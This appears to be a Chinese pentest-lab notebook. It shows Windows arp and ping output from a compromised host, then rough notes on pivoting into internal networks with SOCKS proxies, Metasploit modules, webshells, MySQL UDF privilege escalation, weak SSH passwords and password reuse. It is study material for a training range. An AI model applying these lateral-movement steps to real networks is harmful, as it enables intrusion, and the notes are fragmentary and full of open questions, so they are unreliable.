  10.2.2.39             02-00-0a-02-02-27     动态
  10.2.3.255            ff-ff-ff-ff-ff-ff     静态
  224.0.0.22            01-00-5e-00-00-16     静态
  224.0.0.252           01-00-5e-00-00-fc     静态

接口: 192.168.23.135 --- 0xe
  Internet 地址         物理地址              类型
  192.168.23.1          02-00-c0-a8-17-01     动态
  192.168.23.12         02-00-c0-a8-17-0c     动态
  192.168.23.66         02-00-c0-a8-17-42     动态
  192.168.23.88         02-00-c0-a8-17-58     动态
  192.168.23.231        02-00-c0-a8-17-e7     动态
  192.168.23.255        ff-ff-ff-ff-ff-ff     静态
  224.0.0.22            01-00-5e-00-00-16     静态
  224.0.0.252           01-00-5e-00-00-fc     静态

C:\Users\Administrator>arp -a

接口: 10.2.2.21 --- 0xd
  Internet 地址         物理地址              类型
  10.2.2.1              02-00-0a-02-02-01     动态
  10.2.2.31             02-00-0a-02-02-1f     动态
  10.2.2.39             02-00-0a-02-02-27     动态
  10.2.3.255            ff-ff-ff-ff-ff-ff     静态
  224.0.0.22            01-00-5e-00-00-16     静态
  224.0.0.252           01-00-5e-00-00-fc     静态

接口: 192.168.23.135 --- 0xe
  Internet 地址         物理地址              类型
  192.168.23.1          02-00-c0-a8-17-01     动态
  192.168.23.12         02-00-c0-a8-17-0c     动态
  192.168.23.66         02-00-c0-a8-17-42     动态
  192.168.23.88         02-00-c0-a8-17-58     动态
  192.168.23.231        02-00-c0-a8-17-e7     动态
  192.168.23.255        ff-ff-ff-ff-ff-ff     静态
  224.0.0.22            01-00-5e-00-00-16     静态
  224.0.0.252           01-00-5e-00-00-fc     静态

C:\Users\Administrator>ping 192.168.23.66

正在 Ping 192.168.23.66 具有 32 字节的数据:
来自 192.168.23.66 的回复: 字节=32 时间=3ms TTL=64
来自 192.168.23.66 的回复: 字节=32 时间<1ms TTL=64
来自 192.168.23.66 的回复: 字节=32 时间<1ms TTL=64
来自 192.168.23.66 的回复: 字节=32 时间<1ms TTL=64

192.168.23.66 的 Ping 统计信息:
    数据包: 已发送 = 4，已接收 = 4，丢失 = 0 (0% 丢失)，
往返行程的估计时间(以毫秒为单位):
    最短 = 0ms，最长 = 3ms，平均 = 0ms

C:\Users\Administrator>ping 192.168.23.231

正在 Ping 192.168.23.231 具有 32 字节的数据:
来自 192.168.23.231 的回复: 字节=32 时间<1ms TTL=64
来自 192.168.23.231 的回复: 字节=32 时间<1ms TTL=64
来自 192.168.23.231 的回复: 字节=32 时间<1ms TTL=64
来自 192.168.23.231 的回复: 字节=32 时间<1ms TTL=64

192.168.23.231 的 Ping 统计信息:
    数据包: 已发送 = 4，已接收 = 4，丢失 = 0 (0% 丢失)，
往返行程的估计时间(以毫秒为单位):
    最短 = 0ms，最长 = 0ms，平均 = 0ms

C:\Users\Administrator>

http://192.168.23.66:8080  //  没反馈

========================================

### 对第一层其它机器的扫描与攻击 
网段 192.168.XX

其中Tomcat机放弃。

# 第二层的内网172.X

##### 03.02-Proxifier蓝色地球仪 --- 工具包被拷贝到了10.2.2.21上！

【】拓扑图中不存在192.168.21.231，而172.16.15.12网段和192.168.23.12在同一台机器是，不是192.168.23.231。 Action中应该填写的是  Proxy SOCK5 192.168.23.12   ??? 
10.2.2.21-代理proxifier.jpg


然后用firefox连上  ???

------------------------------- 【】 msf中撤销错误的配置 unset 

 proxychains.conf修改
【sock5 】

## SQLServer服务器
两种思路：
1、用navicat连接
2、用msf -- 搜mysql模块 -- use 31 (不同于针对701的Weblogic攻击模块，这个属于辅助性模块)。
成功攻击后，可以上马
###  穿透 + msf  ??? 

###  172网段：第二层穿透 

#### 左下mysql
弱口令 + UDF提权

#### 下方DB-21
ssh弱口令

#### 右下角win2008
密码复用 -- 与win7weak，Redis 和DB-1共用密码

##### 1、如果172出网： 【】???

##### 2、如果它不出网，可以在192上建立正向代理  

nc监听，不能ctrl-c！ 【???】  

###  redis-h  redis-cli【???】

